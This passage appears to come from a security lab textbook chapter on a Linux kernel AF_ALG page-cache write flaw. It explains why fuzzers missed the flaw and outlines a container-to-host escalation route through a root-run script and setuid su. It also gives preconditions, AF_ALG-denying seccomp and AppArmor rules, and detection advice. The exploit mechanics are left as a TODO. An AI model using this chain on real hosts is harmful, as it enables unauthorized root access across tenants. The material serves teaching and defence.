### Why This Was Not Perceived as an Out-of-Bounds Write

The write is four bytes past the end of the region the caller asked to receive,
which is the description of a buffer overflow. It nonetheless stood for eight and
a half years, and not for want of automated scrutiny of this code. The kernel's
algorithm test manager exercises every registered transformation under
deliberately awkward scatterlist geometries, the in-place arrangement among them:
`struct testvec_config` carries an in-place flag, and one shipped configuration is
named *"misaligned splits crossing pages, inplace"* [@linux-testmgr]. syzkaller
has carried `AF_ALG` descriptors since 2017 — `socket$alg`, `bind$alg`,
`ALG_SET_KEY`, `ALG_SET_AEAD_AUTHSIZE`, `accept$alg`, `sendmsg$alg` — and lists
`authencesn` among the templates it binds [@syzkaller-alg]. The algorithm, the
interface and the in-place geometry are therefore all under continuous automated
test. Five things are nonetheless true of this write that are not true of an
out-of-bounds write.

1. **It is in bounds of the destination.** `scatterwalk_map_and_copy()` walks
   `req->dst` to the requested offset and finds a valid entry there: a live
   `struct page`, a valid offset, a non-zero length, reached across an `SG_CHAIN`
   link that `sg_chain()` installed. It maps the page and writes to it. No bound
   is exceeded, because the destination list was constructed to extend that far.
2. **It is in bounds of the page.** The four bytes fall wholly inside an
   allocated, mapped, referenced 4 KiB frame. KASAN, KMSAN and UBSAN check
   extents, initialisation and lifetimes, and none of the three is violated:
   nothing is freed, nothing is uninitialised, no redzone is touched. An oracle
   that waits for a sanitiser report or a crash therefore never fires
   [@retr0-copyfail]. Nor do the two instruments above supply page-cache pages:
   `testmgr` builds its scatterlists over buffers it allocates itself, and
   syzkaller's `AF_ALG` descriptors model input through `sendmsg` and `sendmmsg`
   alone, with no splice edge [@linux-testmgr; @syzkaller-alg].
3. **For the interface's ordinary caller it is not a bug.** A client that sends
   its input with `sendmsg(2)` owns the tag pages as well, so the scratch write
   lands on data it supplied and no longer needs. Input and output belong to the
   same principal and no boundary is crossed. The write becomes a violation only
   when the input pages belong to someone else, which is what `splice(2)`
   arranges.
4. **Neither component is wrong in isolation.** `authencesn` may write its
   destination, since the AEAD contract makes the destination writable, and it
   was written for the IPsec stack, which supplies kernel-owned socket buffers.
   `algif_aead` may request an in-place operation, since the contract permits
   `src` and `dst` to name one list. The fault is in the relation between the
   two, and that relation is established at run time by a chained pointer neither
   file contains.<div class="page_break"></div>

5. **The invariant is not representable.** The property violated — *this page may
   be read by the transformation but must not be written* — has nowhere to live.
   `struct scatterlist` has three fields and two spare bits, all spent (Section
   9.3.2); `struct aead_request` records lengths and two list pointers, and
   nothing about permission (Section 9.3.3). At the point of the write there is
   no datum distinguishing a page-cache page from one the socket allocated, so
   the check could not have been written even had the hazard been identified.

Nor is there a signal afterwards. The corrupted object is a page-cache page, so
the file on disk is unchanged and integrity checks that re-read from the block
device pass (Section 9.3.5); the system call returns `-EBADMSG`, the expected
result of decrypting with a wrong tag; and no oops, warning or taint is produced.

The upstream fix reverts the optimisation, retaining only the copy of the
associated data, on the ground that there is no benefit in operating in-place in
`algif_aead` when the source and the destination come from different mappings
[@linux-algif-aead-revert]. The optimisation did not trade safety for throughput.
Source and destination were never the same memory, so the copy it avoided was
never avoided; what it removed was an allocation, and what it added was the
possibility that a page belonging to the whole system could be reached through a
pointer the crypto API believed it was entitled to write.

Section 9.5 now establishes that primitive in the laboratory and follows it to
root on the host; Section 9.6 delimits the conditions under which it applies, and
Sections 9.7 and 9.8 return to the remediation and to what can be detected once
the defect has been used.

<div class="page_break"></div>

## Exploitation Walkthrough

The primitive established in Section 9.4 is not, by itself, an escape. It writes
four bytes into the cached image of a file, and a file is a route across a
security boundary only if some more privileged principal subsequently reads or
executes it. The technique therefore has two halves that are worth keeping
separate: the *acquisition* of the primitive, which is a matter of the crypto API
and is identical wherever it is exercised, and the *choice of target*, which is a
matter of what the surrounding system happens to do with its files and is settled
before a line of code is written. This section takes them in that order, target
first, because the target is what determines the exercise's arrangement — two
containers and one root-owned script, where every preceding exercise needed only
a single foothold.

### Two containers, and what the second one is for

The foothold is the container tabulated in Section 9.2: unprivileged, all
capabilities dropped, `no-new-privileges` set, the default seccomp and AppArmor
profiles applied, a read-only root filesystem, a non-root user and no host
mount beyond the documented convenience share. It is the only container the
attacker occupies, and nothing in its configuration is weakened at any point in
the walkthrough.

Beside it runs a second container, `ex05-neighbour`, built from the *same image*.
It is not a participant. It holds no mount the foothold holds, executes nothing
the attacker supplies, and is never entered by the attacking process; its
`depends_on` relation exists to order the two starts and confers nothing else. It
has its own mount, PID, network and IPC namespaces, its own writable `tmpfs`, its
own cgroup and its own resource limits, and it carries the same hardening as the
foothold. By every mechanism catalogued in Chapter 2, the two containers are
isolated from one another.

What they do share is not a mechanism at all. Because both are built from one
image, every file in that image's lower layers is, on the host, a single inode,
and overlayfs serves reads of a lower layer from that underlying inode's pages
rather than caching a copy per container (Section 9.3.5). The two containers
therefore read `/usr/bin/su`, `/bin/sh` and every other unmodified image file
*through the same set of page-cache pages*, and no configuration option
expresses this, because no configuration option created it.

The neighbour is consequently an instrument rather than a target: it converts the
claim of Section 9.3.5 into a measurement. A change made to a shared page from
inside the foothold and then observed from inside the neighbour cannot be
attributed to a shared path, a shared mount, a shared namespace or a shared
volume, because there are none; the only channel connecting the two is the page
cache, so the page cache is what the observation isolates. This is also the point
at which the exercise departs most sharply from its predecessors. In Exercises I
to IV the attacker's actions cross the boundary and the host is affected because
the attacker reached it. Here a second, wholly uninvolved container's behaviour
changes while the attacker never touches it, never addresses it and does not need
to know that it exists.

### The operator's script as attack surface

The route to execution as root is a script the laboratory installs on the host:
`hostdiag.sh`, placed by `setup.sh` into the exercise's `shared/` directory as
`root:root`, mode `0755`, and visible to the foothold at `/shared/hostdiag.sh`
through the bind mount. It models the most ordinary furniture of an operated
platform — a diagnostics collector that walks a host directory, copies what it
finds into a support bundle and leaves the bundle in the workload's share so the
workload can retrieve it without host access of its own. It runs on the *host*,
as root, from an operator's console or a nightly `cron` entry.

Two properties make it the natural attack surface, and neither is a
misconfiguration. The first is that the container must be able to read it: the
script is mounted into the workload precisely so the workload can see where its
bundle will appear, and a helper the workload cannot read is a helper the
workload cannot use. The second is that the container must *not* be able to write
it, and does not: the file is owned by root and the container runs as uid 65534,
so an attempt to modify it through the filesystem fails with `EACCES` at
`open(2)`. The configuration is exactly what a careful operator would deploy, and
it is defensible under every assumption the operator is entitled to make.

The primitive dissolves the distinction those two properties rest on. Write
permission is checked once, at the system-call boundary, against the path by
which a file is opened; a `struct page` carries no record of who may write it and
a kernel subsystem handed a bare page pointer performs no check of its own
(Section 9.3.5). The attacking process therefore never opens the script for
writing and never fails a permission check, because it never reaches one: it
opens the file `O_RDONLY`, as it is entitled to, and the write arrives at the
page from the far side, through the crypto request. The file's mode bits remain
accurate, are never contradicted by any operation the kernel records, and are
irrelevant.

What follows from that is a confused-deputy arrangement of a familiar shape and
an unfamiliar depth. Nothing belonging to the attacker crosses the boundary; the
operator carries the payload across on the attacker's behalf, by doing the one
thing the script exists to have done to it. The parallel with Exercise IV is
exact in structure and instructive in its difference: there the kernel executed
the attacker's file as root because a callback had been armed to do so, and the
arming was itself the anomaly to be detected; here the host executes its *own*
file, unmodified on disk, at its scheduled time, and there is no arming step at
all.

Three practical properties of this target follow from the mechanism and shape the
payload rather than the analysis. A page-cache write cannot change a file's
length, since `i_size` lives in the inode and is not what is being corrupted; the
substituted content must therefore fit within the bytes the script already
occupies, which is why a collector carrying a generous comment block is a more
tractable target than a terse one. Shell scripts are read rather than mapped, so
`/bin/sh` obtains the script's text from the page cache on each invocation and a
corrupted cache takes effect on the very next run with no reload, no restart and
no re-execution of anything. And the corruption survives exactly as long as the
pages do: until reclaim, an unmount or an explicit `drop_caches`, after which the
file reverts, silently and completely, to the bytes on disk.

### Why the canonical setuid route is not the one taken

The vendor advisories present the setuid-root binary as the canonical target, and
the foothold image ships `/usr/bin/su` and `/bin/su` setuid-root deliberately for
that reason: four bytes placed correctly in the cached image of `su` change what
`su` does when it is executed, while the binary on disk stays byte-identical
[@xint-copyfail; @unit42-copyfail]. That route is nevertheless closed *inside the
foothold*, and closed on purpose. `no-new-privileges` sets `PR_SET_NO_NEW_PRIVS`,
which makes the kernel ignore setuid bits at `execve(2)`; the corrupted `su` may
be executed in the foothold, but it cannot acquire uid 0 there whatever its
cached text says.

This is the one control in Section 9.2's table that touches the attacker at all,
and the exercise keeps it set so that the exact extent of what it buys can be
seen. It constrains a *consequence* and not the primitive. The pages of `su` are
corrupted host-wide the moment the write lands: the neighbour container sees the
altered binary, and so does the host, whose own processes are subject to no
`no_new_privs` flag set inside a container. What the control achieves is the
denial of one convenient escalation path to one process; what it leaves
untouched is the write, its scope, and every other principal's exposure to it.

The exercise therefore separates the two claims it needs and assigns a target to
each. The corrupted setuid binary, corrupted from the foothold and observed from
the neighbour, demonstrates that the write is host-wide and unmediated by any
isolation mechanism. The operator's script, corrupted from the foothold and
executed by root on the host, demonstrates that the write is sufficient for
execution outside the container. Neither demonstration requires the container's
configuration to be weakened, and neither requires the attacker to defeat a
control: the first is invisible to the controls and the second routes around the
only one that engages.

<!-- ============================================================
     TODO — exploitation mechanics, to be written once the working
     exploit is complete. Planned sub-sections, following the four
     "Movement" pattern of Section 8.5:

       ### Movement 1 — opening the interface (socket/bind/setsockopt/accept)
       ### Movement 2 — putting the target's pages on the source side (splice)
       ### Movement 3 — the four-byte write (AAD echo-through, -EBADMSG)
       ### Movement 4 — composing writes into a payload, and waiting for cron
       ### Confirmation and interpretation (with terminal transcript figure)

     A figure of the dual-container / shared-page arrangement (candidate:
     Images/ex05_blast_radius.svg, would be Figure 9.6) belongs at the head
     of "Two containers, and what the second one is for".
     ============================================================ -->
<div class="page_break"></div>

### What a successful run has to demonstrate

Because the corruption leaves no trace in the object it corrupts, the exercise's
evidence has to be produced deliberately rather than collected afterwards, and
`setup.sh` and `teardown.sh` exist to produce it. Three observations are
required, and each is instrumented before the technique is attempted.

**That the write reached outside the container.** The neighbour is examined for
the altered behaviour of a file neither container modified through its
filesystem. An affirmative result here is the whole of Section 2.8 in a single
measurement: two correctly configured, fully isolated containers, and a change
made in one that is legible in the other.

**That the disk was never written.** `setup.sh` records the SHA-256 digests of
the candidate setuid binaries and of the operator's script before the exercise
begins. `teardown.sh` issues `sync`, writes to `/proc/sys/vm/drop_caches` —
discarding the corrupted pages and forcing the next access to re-read from the
block device — and re-verifies those digests. A *match* is the expected outcome
and is the empirical statement of the defining property of this vulnerability: no
file was modified, only the kernel's cached image of one. A mismatch would mean
something other than page-cache corruption had occurred, and the virtual machine
would have to be treated as compromised by an unknown mechanism rather than by
this one.

**That the boundary was crossed.** The objective marker at `/root/flag.txt` on
the virtual machine is mode `0600` and owned by root, so recovering its contents
requires execution as root on the host and cannot be achieved by any degree of
privilege inside the container. Its value,
`FLAG{page_cache_is_shared_across_the_host}`, names the property that made the
recovery possible.

Because flushing the cache cannot undo whatever was done with root privilege in
the interval, `teardown.sh` is explicitly a soft reset; the authoritative reset
remains restoration of the clean-baseline snapshot from the host, which is why
`setup.sh` refuses to run without one (Section 9.2).

<div class="page_break"></div>

## Preconditions and Applicability

The preconditions of this technique are worth tabulating for the same reason as
those of Exercise IV — each corresponds to a mitigation — and worth reading
afterwards for a different reason, which is what the list does not contain.

| Precondition | Rationale |
|---|---|
| Kernel within the affected range | The defect proper. Introduced by commit `72548b093ee3` (November 2017); present from 4.14 to 6.19.11; fixed in 6.18.22, 6.19.12 and 7.0 [@cert-eu-copyfail; @linux-algif-aead-revert]. |
| `algif_aead` present and loadable | The entry point. Built as a module or in-kernel under `CONFIG_CRYPTO_USER_API_AEAD`, which stock distribution kernels enable. |
| An `authencesn` template registered | The transformation whose scratch write is the primitive (Section 9.4). Reached by name, and auto-loaded on `bind(2)` where the module is available. |
| `socket(AF_ALG, …)` reachable from the workload | A property of the *runtime's* profiles, not of the kernel: permitted by Docker's default seccomp and AppArmor profiles before Engine 29.4.3, and by Kubernetes `RuntimeDefault` [@docker-copyfail-mitigation; @juliet-copyfail-k8s]. |
| A privilege-bearing file the attacker may open for reading | The conversion of the write into a boundary crossing: a setuid binary, a script or configuration file consumed by a privileged host process, a mounted helper, a CA bundle. |
| `no-new-privileges` unset | Required by the in-container setuid route *only*, and by no other (Section 9.5). |

Only the first three rows are conditions of the defect. The fourth is a condition
of *reaching* it, and the fifth of *using* it; the sixth qualifies a single
escalation path among several. Nothing in the table is a property of the
container: not a capability, not a mount, not a device, not a namespace
configuration, not a seccomp profile beyond the runtime's own default as it
shipped, and not the uid the workload runs as. This is the structural difference
between the capstone and every exercise preceding it, and it is why the list is
short.

**Applicability beyond the container.** The same syscall sequence has the same
effect from a virtual-machine guest's userland, an SSH session, a CI runner, a
serverless sandbox sharing a host kernel, or an interactive login on a shared
workstation. The vulnerability is a local privilege escalation that containers
inherit rather than a container vulnerability, and the container-specific
observation is not that it works there but that its blast radius is the *node*:
because image layers are shared inodes, one corrupted page is visible to every
co-tenant derived from the same layer, with no escape from the originating
container needing to have occurred [@xint-copyfail-pod-to-host].

**Where it does not apply.** Three classes of deployment are outside the
technique's reach, and the reasons differ in kind. A patched kernel is immune
because the defect is gone. A workload whose runtime denies `socket(AF_ALG, …)`,
or a host on which the interface has been removed altogether, is unaffected
because the entry point is closed while the defect remains. And a workload that
does not share the host kernel at all — a microVM runtime such as Kata or
Firecracker, or gVisor, whose sentry implements the syscall surface in userspace
and exposes no `AF_ALG` family — is unaffected because the shared object the
defect corrupts is not shared with it. Only the first and third are structural;
the second is reachability management, and Section 9.7 takes up the distinction.

**A note on the disclosure window.** Between disclosure on 29 April 2026 and the
availability of patched kernels through distribution channels, no deployed Linux
host was in the first class, and the population in the third was small. The
practical question for every operator in that window was consequently the second
one, which is why the runtime-level mitigation shipped first and why it is
treated here as a first-class control rather than as a workaround.

<div class="page_break"></div>

## Remediation

The controls below are ordered by durability rather than by convenience or by
speed of deployment, and the ordering matters more here than in any preceding
exercise, because only the first and the last address the defect rather than the
path to it.

- **Patch the kernel.** The definitive control. The upstream fix reverts the 2017
  in-place optimisation and returns `algif_aead` to out-of-place operation,
  retaining only the copy of the associated data; it is carried by 6.18.22,
  6.19.12 and 7.0, and backported by distributions to their supported series
  [@linux-algif-aead-revert; @cert-eu-copyfail]. Because the fix removes the
  chaining that connects the source side of a request to its destination
  (Section 9.4), it closes the primitive itself and every route built on it,
  irrespective of what the workload is permitted to do.
- **Upgrade the container runtime.** Docker Engine's default profiles were
  amended in the 29.4.2 and 29.4.3 releases to deny `socket(AF_ALG, …)` in the
  default seccomp profile, to add a `deny network alg,` rule to the default
  AppArmor profile, and to make the corresponding SELinux change; the `socketcall(2)`
  multiplexer, by which the family could otherwise be reached indirectly on
  32-bit ABIs, is denied alongside it [@docker-copyfail-mitigation]. This is a
  single change at the node level that protects every container on it without
  touching the workloads, which is why it was the fastest control to deploy
  during the disclosure window and why the laboratory must pin an engine
  predating it (Section 9.2).
- **Apply an explicit `AF_ALG`-denying seccomp profile** to untrusted workloads,
  irrespective of kernel patch state; the exercise ships one as
  `seccomp-block-afalg.json`. This is necessary rather than redundant under
  Kubernetes, where `RuntimeDefault` was found not to deny the family and a
  `Localhost` profile carrying an explicit deny rule was required — a `restricted`
  Pod Security Standard, all capabilities dropped and a non-root user
  notwithstanding [@juliet-copyfail-k8s].
- **Remove the interface where it is unused.** Blacklisting `algif_aead`, or on
  kernels that build it in, `initcall_blacklist=algif_aead_init`, or a rebuild
  without `CONFIG_CRYPTO_USER_API_AEAD`, eliminates the entry point host-wide.
  The compatibility cost is narrower than it appears: dm-crypt, LUKS, kTLS,
  IPsec, SSH and default OpenSSL and GnuTLS builds do not route through
  `AF_ALG`, and the affected consumers are applications that opt into it
  explicitly, such as OpenSSL's `afalg` engine [@man7-af-alg].
- **Set `no-new-privileges`.** It defeats the in-container setuid escalation and
  nothing else: the write still lands, the pages are still corrupted host-wide,
  and a privileged principal outside the container is unaffected by a flag set
  inside it (Section 9.5). It is worth setting — it is nearly free — provided it
  is not mistaken for a control on the vulnerability.
- **Do not share the kernel with genuinely untrusted tenants.** A microVM runtime
  or gVisor gives a hostile workload a different kernel to attack, and is the only
  entry in this list other than the patch that answers a shared-kernel defect
  structurally rather than by denying reachability. The cost is the one Chapter 2
  described: the isolation that containers deliberately traded away for density
  and start-up latency is bought back at those prices.

**Validating the remediation.** The exercise's `verify-mitigation.sh` follows the
discipline required by Section 4.6 and runs a non-weaponised reachability probe —
it opens and immediately closes an `AF_ALG` socket, binding no algorithm and
performing no cryptography — under three configurations on the same unpatched
kernel: unconfined, the blocking profile, and the engine's current default.
Because the kernel, the image and the probe are constant across the three, the
difference in outcome is attributable to the seccomp rule and to nothing else.
The complementary check operates on the other variable: `restore-kernel.sh patch`,
shared with Exercise IV, moves the virtual machine to a fixed kernel so that the
technique can be re-attempted with the runtime's profiles unchanged.

Every control in the list except the first and the last is a compensating
control: it denies the attacker access to a defect that remains present, exactly
as the seccomp discussion of Chapter 2 anticipated and as Exercise IV's
remediation already observed in a milder form. The capstone is where the posture
is seen at its limit, because here the compensating controls are the only ones
available for as long as the kernel is unpatched, they are administered by a
party other than the workload's owner, and their failure mode — a default profile
that permitted the family for a decade — is silent.

<div class="page_break"></div>

## Detection Guidance

- **Alert on `AF_ALG` socket creation from containers and from unprivileged
  processes.** This is the chain's mandatory first step and the narrowest signal
  available; Sysdig published a Falco rule for exactly it during the disclosure
  window [@sysdig-copyfail; @falco-rules]. The rule is only as useful as the
  baseline behind it, so the legitimate users of the interface on a given estate
  — in practice, applications built against OpenSSL's `afalg` engine — should be
  enumerated first and excepted by binary, not by container or by user.
- **Treat the pairing of `splice(2)` with an `AF_ALG` socket as the signature,
  not either syscall alone.** Ordinary use of the kernel crypto API submits data
  with `sendmsg(2)` from the caller's own buffers; it is the substitution of a
  page reference for a copy that makes another principal's memory reachable, and
  a descriptor spliced from a file into a crypto socket has no legitimate
  counterpart in the interface's intended use (Section 9.4).
- **Correlate privilege transitions with preceding crypto activity.** An
  unexpected uid-0 execution on the host, or a `su`, `sudo` or `passwd`
  invocation that succeeds where it should not, is far more interpretable when
  joined to `AF_ALG` activity in a container minutes earlier than when examined
  on its own. This applies with particular force to scheduled work: a root `cron`
  job whose behaviour changes without any corresponding change to the file it
  runs is the shape this exercise's route leaves in the telemetry.
- **Do not expect file-integrity monitoring to see it, and understand why.** An
  agent that re-hashes files from the block device compares the attacker's write
  against an object the attacker never touched, and returns a clean result; the
  same is true of `dpkg --verify`, `rpm -V`, a package-manager reinstall, and any
  inspection performed after a reboot (Section 9.3.5). The exercise makes this
  concrete rather than asserting it: the on-disk digests recorded by `setup.sh`
  are expected to *match* after a successful escalation, and the match is the
  finding. Detection here must observe syscall behaviour, because file state is
  not merely a weak signal but a systematically misleading one.
- **Account for the evidence's volatility in the response plan.** The corrupted
  pages are destroyed by reclaim, by an unmount, by `drop_caches` and by a
  reboot, and the reboot is precisely what a responder is likely to perform
  first. There is no supported general mechanism for comparing a file's cached
  image against its on-disk contents, so on a host suspected of this attack the
  syscall telemetry captured before the reboot may be the only record that
  survives it.
- **Scope the investigation to the node, not to the container.** Because the
  corrupted pages belong to shared image layers and to bind-mounted host files, a
  container that shows no anomalous activity may nevertheless be executing
  corrupted code, and the originating container may be neither the one exhibiting
  the symptom nor the one an operator examines first. Containment that stops at
  the container which appears affected will miss both the source and the rest of
  the blast radius.
